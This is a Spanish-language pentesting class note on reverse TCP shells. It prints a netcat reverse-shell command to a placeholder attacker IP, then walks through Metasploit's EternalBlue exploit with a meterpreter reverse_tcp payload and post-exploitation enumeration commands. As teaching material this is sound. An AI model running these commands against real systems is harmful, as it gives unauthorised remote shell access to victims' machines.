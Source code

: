 ```yaml
---
title: Clase- Buffer Overflows
date: 2024-11-05 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [rhosts, sam, system]  # TAG names should always be lowercase
---
```

# Definicion.

### Conexion tcp reversa
Una conexión TCP reserva es una técnica utilizada para establecer una comunicación segura y controlada entre dos dispositivos a través de Internet o una red local. En este escenario, una máquina (generalmente una víctima) se conecta de manera controlada a otra máquina (usualmente un atacante o servidor de control) para crear un canal de comunicación.

### Ejemplo de Conexión TCP Reserva
Imaginemos un escenario en el que un analista de seguridad necesita acceder remotamente a un servidor ubicado detrás de un firewall que bloquea las conexiones entrantes:

#### 1. Máquina Atacante (Servidor de Control): 
Configura un servidor para escuchar en un puerto específico (por ejemplo, puerto 4444).

````bash
nc -lvp 4444
````
#### 2. Máquina Víctima (Cliente):
 Inicia una conexión hacia el servidor de control usando una herramienta como Netcat.

````bash
nc [IP del servidor de control] 4444 -e /bin/bash
````
Una vez establecida la conexión, la máquina atacante tiene acceso remoto al shell de la máquina víctima. Esta técnica es comúnmente utilizada en pruebas de penetración y ataques para sortear restricciones de red.

#### Referencias: 

<a href="https://www.hackingarticles.in/reverse-tcp-shells/?form=MG0AV3">Reverse TCP Shells in Penetration Testing</a>
<a href="https://pentestlab.blog/understanding-reverse-tcp-connections/?form=MG0AV3">Understanding Reverse TCP Connections</a>

````bash
use exploit/windows/smb/ms17_010_eternalblue
````

![f5](/assets/imagen/f5.png)

````bash
set payload windows/meterpreter/reverse_tcp
````
![f51](/assets/imagen/f51.png)

Se configura la dirección IP y el puerto de la máquina atacante:

![f52](/assets/imagen/f52.png)

Cuando el exploit se ejecuta con éxito, la máquina objetivo se conectará a la máquina del atacante en el puerto especificado (en este caso, el puerto 4444). La máquina del atacante estará a la escucha en ese puerto y, si todo está configurado correctamente, se establecerá una sesión de Meterpreter.

Una vez que se obtiene la conexión de retorno TCP (utilizando cualquiera de las direcciones de retorno que permiten la ejecución exitosa del exploit), se puede investigar los permisos de la shell (es decir, los permisos del usuario que ejecuta esa shell).

Para obtener información sobre el sistema, se puede utilizar el comando "sysinfo" para obtener una visión general del sistema.

En resumen, el texto describe el flujo de trabajo después de que un exploit se ejecuta con éxito, donde se establece una conexión de retorno y se puede recopilar información sobre el sistema objetivo.

![f53](/assets/imagen/f53.png)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````
